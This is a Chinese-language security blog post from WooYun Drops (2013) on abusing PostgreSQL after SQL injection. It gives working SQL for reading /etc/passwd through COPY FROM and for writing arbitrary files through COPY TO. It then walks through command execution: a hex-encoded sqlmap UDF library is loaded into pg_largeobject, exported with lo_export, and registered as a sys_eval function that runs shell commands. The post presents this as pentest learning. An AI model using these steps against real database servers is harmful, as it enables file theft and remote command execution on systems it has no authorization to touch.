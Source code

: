 # PostgreSQL 的那点事儿

2013/07/09 16:52 | [疯狗](http://drops.wooyun.org/author/疯狗 "由 疯狗 发布")![](img/img1_u56_png.jpg)   | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章")  | 占个座先  | 捐赠作者

今天无意发现了个 PostgreSQL 环境，线上学习了下，一般的数据注射（读写数据库）差异不大，不做讨论，个人比较关心 PostgreSQL 的文件读取和命令执行方面。

### 0x00 文件读取/写入

* * *

PostgreSQL 8.1 以后提供了一组现成的文件操作函数

```
pg_logdir_ls()、pg_ls_dir()、pg_file_rename()、pg_file_write()、 pg_read_file()、pg_length_file() 
```

用这些就可以胡作非为了？你错了。。。

可以用这个函数直接读取/etc/passwd？实际情况下测试并未成功，因为 pg_xxx 这个 adminpack 将权限限制在了./postgresql/data 下面。

#### a）比如列目录

![2013070916495021606_png.jpg](img/img1_u16_jpg.jpg)

#### b）读取权限允许的文件

![2013070916501626793_png.jpg](img/img2_u17_jpg.jpg)

还有个写文件函数测试并未成功，而且只能像 data 下写也是满足不了需求的。

#### c）比较可行的文件读取方案

![2013070916503429269_png.jpg](img/img3_u26_jpg.jpg)

![2013070916510067232_png.jpg](img/img4_u18_jpg.jpg)

```
drop table wooyun;
CREATE TABLE wooyun(t TEXT);
COPY wooyun FROM '/etc/passwd';
SELECT * FROM wooyun limit 1 offset 0; 
```

利用注射修改偏移值很快就可以遍历出来了，但是还是有点寒碜，直接读出全部数据

```
DROP TABLE wooyun;
CREATE TABLE wooyun (t TEXT);
COPY wooyun(t) FROM '/etc/passwd';
SELECT * FROM wooyun; 
```

![2013070916512953973_png.jpg](img/img5_u20_jpg.jpg)

#### d）写入文件

```
DROP TABLE wooyun;
CREATE TABLE wooyun (t TEXT);
INSERT INTO wooyun(t) VALUES ('hello wooyun');
COPY wooyun(t) TO '/tmp/wooyun'; 
```

![2013070916514499642_png.jpg](img/img6_u23_jpg.jpg)

读一下看看是否存在

![2013070916515914176_png.jpg](img/img7_u19_jpg.jpg)
Bingo~

### 0x01 命令执行

```
enter code here 
```

这里大概有三种方式

#### a）利用 libc 中的 system() 函数

很多文件会让我们添加一个到 libc 库的自定义功能函数

```
CREATE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6', 'system' LANGUAGE 'C' STRICT; 
```

但是返回错误

```
Error : ERROR:  incompatible library "/lib64/libc.so.6": missing magic block  
HINT:  Extension libraries are required to use the PG\_MODULE\_MAGIC macro. 
```

这是因为当 PostgreSQL 加载外部动态库的时候，会检查 MAGIC DATA，如果没有这个函数（Pg_magic_func），PostgreSQL 认为这个动态库不是 PostgreSQL 可以使用的动态库。具体逻辑请看 src/backend/utils/fmgr/dfmgr.c 中定义的 internal_load_library 函数源代码。

这样一来就等同于建立了一个“白名单”，系统自带的库默认我不再允许动态加载，所以此路不通（也许低版本走的通，但我手里这个不行）。

给一个 Pg_magic_func 代码样例：

```
extern PGDLLEXPORT const Pg_magic_struct * Pg_magic_func(void);
const Pg_magic_struct * 
Pg_magic_func(void)
{
    static const Pg_magic_struct Pg_magic_data = PG_MODULE_MAGIC_DATA;
    return &Pg_magic_data;
} 
```

#### b）利用 Perl/Python 脚本语言功能

在 zone 上看过一帖，http://zone.wooyun.org/content/1591，很纳闷为什么这样定义函数就可以执行系统命令，plperlu 又是啥，经过资料的挖掘，发现是 PostgreSQL 自带的一种程序语言支持。

具体可见这里（[`www.postgresql.org/docs/8.3/static/xplang.html`](http://www.postgresql.org/docs/8.3/static/xplang.html)）。

大概意思就是 PostgreSQL 允许用除了 SQL 和 C 的其他语言来编写函数，但这个很悲剧啊，我的环境没有安装 PostgreSQL 的 Python 和 Perl 支持，待我弄个环境在来实现下过程。

#### c）利用 C 语言自定义函数

Perl、Python 都能在 PostgreSQL 自定义了更不用说 C 了。

这个在 sqlmap 的 udf 目录下有现成的，而且还是根据版本加了 Pg_magic_func 函数的，可以加载。。。牛鞭！

```
FengGou:8.4 $ pwd
/Users/FengGou/sqlmap/udf/postgresql/linux/64/8.4
FengGou:8.4 $ ls
lib_postgresqludf_sys.so 
```

将 sqlmap 的 so 文件转为 16 进制的代码

```
7F454C4602010100000000000000000003003E0001000000C00C0000000000004000000000000000A0170000000000000000000040003800050040001A00190001000000050000000000000000000000000000000000000000000000000000008413000000000000841300000000000000002000000000000100000006000000881300000000000088132000000000008813200000000000A802000000000000B00200000000000000002000000000000200000006000000B013000000000000B013200000000000B01... ... 
```

老他么长的一段，怎么还原成二进制的 so 库文件呢？

这里感谢 @瞌睡龙 提供的 Tips，这里用到了 PostgreSQL 的 pg_largeobject“大对象数据”，官方原文：

```
pg_largeobject 表保存那些标记着"大对象"的数据。
一个大对象是使用其创建时分配的 OID 标识的。 
每个大对象都分解成足够小的小段或者"页面"以便以行的形式存储在 pg_largeobject 里。 
每页的数据定义为 LOBLKSIZE(目前是 BLCKSZ/4，或者通常是 2K 字节)。 
```

a）查看 PostgreSQL 目录

```
SELECT setting FROM pg_settings WHERE name='data_directory'; 
```

b）查询 id

```
select lo_creat(-1); 
```

oid 为当前对象大数据的标识符，我们要利用这个存储 UDF 文件内容。

c）oid 与上面保持一致

```
delete from pg_largeobject where loid=18412; 
```

等于变相清空"页面"，不要干扰库的生成

d）把 16 进制的 so 文件塞进去

```
insert into pg_largeobject (loid,pageno,data) values(18412, 0, decode('7F454CXXXXXXXXX000', 'hex')); 
```

e）利用 PostgreSQL 自带函数将大型对象导出到文件

```
SELECT lo_export(18412, 'cmd.so'); 
```

f）建立 UDF

```
CREATE OR REPLACE FUNCTION sys_eval(text) RETURNS text AS '/xxx/cmd.so', 'sys_eval' LANGUAGE C RETURNS NULL ON NULL INPUT IMMUTABLE; 
```

g）调用这个 UDF

```
select sys_eval('id'); 
```

![2013070916522426778_jpg.jpg](img/img8_u15_jpg.jpg)

也许服务器没装 PostgreSQL 的 Perl、Python 支持，但是 C 库是通用的。

参考：
[1](http://static.wooyun.org/201307/2013070916495021606_png.jpg)PostgreSQL SQL Injection Cheat Sheet
http://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet
[2](http://static.wooyun.org/201307/2013070916501626793_png.jpg)OWASP Backend Security Project Testing PostgreSQL
https://www.owasp.org/index.php/OWASP_Backend_Security_Project_Testing_PostgreSQL
[3](http://static.wooyun.org/201307/2013070916503429269_png.jpg)PostGreSQL 注入学习(续篇)
http://www.hackol.com/news/201007270731289820885.shtml
[4](http://static.wooyun.org/201307/2013070916510067232_png.jpg)PostgreSQL Adminpack
http://www.postgresql.org/docs/8.4/static/adminpack.html
[5](http://static.wooyun.org/201307/2013070916512953973_png.jpg)PostgreSQL 外部动态连接库魔法块的使用
http://my.oschina.net/quanzl/blog/136907
[6](http://static.wooyun.org/201307/2013070916514499642_png.jpg)Chapter 37\. Procedural Languages
http://www.postgresql.org/docs/8.3/static/xplang.html
[7](http://static.wooyun.org/201307/2013070916515914176_png.jpg)postgresql "初级"注入大法
http://zone.wooyun.org/content/1591
[8](http://www.postgresql.org/docs/8.3/static/xplang.html)pg_largeobject

http://www.php100.com/manual/PostgreSQL8/catalog-pg-largeobject.html

**Tags:** [PostgreSQL](http://drops.wooyun.org/tag/postgresql)

版权声明：未经授权禁止转载 [疯狗](http://drops.wooyun.org/author/疯狗 "由 疯狗 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Spring 框架问题分析](http://drops.wooyun.org/tips/2892)
*   [False SQL Injection and Advanced Blind SQL Injection](http://drops.wooyun.org/tips/4322)
*   [逆向基础（一）](http://drops.wooyun.org/tips/1517)
*   [shellcode 教程从新手到高手](http://drops.wooyun.org/tips/4225)
*   [浅谈 PHP 弱类型安全](http://drops.wooyun.org/tips/4483)
*   [利用 insert，update 和 delete 注入获取数据](http://drops.wooyun.org/tips/2078)